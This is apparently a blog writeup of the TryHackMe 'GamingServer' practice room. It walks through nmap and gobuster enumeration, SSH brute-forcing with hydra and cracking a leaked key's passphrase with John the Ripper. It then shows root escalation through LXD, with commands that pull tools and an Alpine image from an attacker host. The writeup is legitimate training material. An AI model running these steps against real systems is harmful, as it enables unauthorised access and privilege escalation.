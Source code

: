 ```yaml
---
permalink: /GamingWriteup.html
---
```

*[Back To Main Page](https://exhalior.github.io)*
![thumbnail](https://i.imgur.com/lZRim5g.jpg = 100x100)

## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```nmap -sC -sV -v -oA gamingserver *machine_ip*```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```hydra -l john -P *path to wordlist* *machine_ip* ssh```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

![Secret Page](https://i.imgur.com/FYrdjNd.png)

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```chmod 600 SecretKey```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

![wordlist](https://i.imgur.com/BoiE8ui.png)

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!
First i used ssh2john to format the key into something john the ripper can read.

```/usr/share/john/ssh2john.py SecretKey > keyhash```

Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```john keyhash -w=dict.lst```

Boom! Found it!

![password](https://i.imgur.com/gvMwN2e.png)

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```ssh -i SecretKey john@machine_ip```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

![lstouser](https://i.imgur.com/QWbXKr5.png)

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've been.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```*ATTACKER MACHINE* sudo python3 -m http.server```

Then we download the script on the victim machine

```*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh```

From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

![linpeasr](https://i.imgur.com/ZcRVxi2.png)

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

![root](https://i.imgur.com/blIf2iY.png)

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

![rootxt](https://i.imgur.com/uEVyjAm.png)

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.





